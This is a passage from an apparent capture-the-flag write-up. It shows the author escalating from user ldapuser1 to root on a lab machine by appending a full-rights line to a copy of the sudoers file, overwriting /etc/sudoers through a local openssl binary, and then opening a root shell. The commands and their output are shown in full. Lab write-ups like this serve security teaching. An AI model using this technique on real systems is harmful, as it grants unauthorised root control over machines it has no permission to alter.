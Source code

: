 ```bash

...SNIP...
```

Then, append `ldapuser1    ALL=(ALL)    ALL` to the saved file.

```bash
[ldapuser1@lightweight ~]$ echo "ldapuser1    ALL=(ALL)       ALL" >> /dev/shm/sudoers


[ldapuser1@lightweight ~]$ tail /dev/shm/sudoers
## Allows members of the users group to mount and unmount the 
## cdrom as root
# %users  ALL=/sbin/mount /mnt/cdrom, /sbin/umount /mnt/cdrom

## Allows members of the users group to shutdown this system
# %users  localhost=/sbin/shutdown -h now

## Read drop-in files from /etc/sudoers.d (the # here does not mean a comment)
#includedir /etc/sudoers.d
ldapuser1    ALL=(ALL)       ALL
```

Then, I overwrote `/etc/sudoers` file.

```bash
[ldapuser1@lightweight ~]$ cat /dev/shm/sudoers | base64 | ./openssl enc -d -base64 -out /etc/sudoers
```

After all, let's check `sudo -l`.

```bash
[ldapuser1@lightweight ~]$ sudo -l
[sudo] password for ldapuser1: 
Matching Defaults entries for ldapuser1 on lightweight:
    !visiblepw, always_set_home, match_group_by_gid, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG
    LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User ldapuser1 may run the following commands on lightweight:
    (ALL) ALL
```

Using that permission, let's open a `root` shell.

```bash
[ldapuser1@lightweight ~]$ sudo su

[root@lightweight ldapuser1]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@lightweight ldapuser1]# whoami
root
```
